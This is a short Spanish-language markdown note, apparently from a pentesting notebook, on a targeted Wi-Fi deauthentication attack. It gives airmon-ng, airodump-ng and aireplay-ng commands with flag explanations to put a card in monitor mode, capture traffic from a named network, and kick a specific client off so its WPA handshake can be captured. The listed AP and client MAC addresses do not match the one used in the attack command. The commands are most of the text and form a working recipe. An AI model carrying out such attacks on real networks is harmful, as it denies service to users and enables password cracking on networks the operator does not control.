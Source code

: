# DesAuth Dirigido 
Consiste en interceptar una comunicacion del cliente al AP, insertando en la data paquetes de desautenticacion, con el objetivo de denegar el servicio al cliente.

	airmon-ng start wlan1
Iniciamos nuestra tarjeta de red en modo monitor.

	airodump-ng wlan1mon -c 1
Monitoriamos la red en el canal 1

**Datos del AP**
D0:B6:6F:5A:4C:BF  INFINITUM33B5      
**Datos del cliente asociado al AP**
68:D7:9A:56:2B:72

	airodump-ng -c 1 -w CapturasDeAuth --essid INFINITUM33B5 wlan1mon 
Capturamos los paquetes que circulan en la AP

-w *archivo donde se guardaran las capturas de la red.*
-c 1 *especificamos el canal donde se ubica el AP.*
 --essid *nombre de la red victima.*
 wlan1mon *interfaz de red con la cual deseamos escaner el trafico de la red victima.*

Mientras realizamos la captura del trafico vamos a enviar paquetes  DeAuth a un cliente en espesifico para capturar el [[HandShake]].

	aireplay-ng -0 10 -e INFINITUM33B5 -c 74:23:44:A9:C7:67 wlan1mon
Mandamos paquetes DeAuth para expulsar al cliente y que se vuelva a conectar para capturar el HandShake.

-0 *especificamos que se realizara un ataque DeAuth.*
10 *numero de paquetes DeAuth que enviaremos.*
-e *essid de la red.*
-c *direccion mac del cliente que expulsaremos de la red.*
wlan1mon *tarjeta de la red en modo monitor.*

Una vez que el cliente se reconecte abremos capturado el HandShake.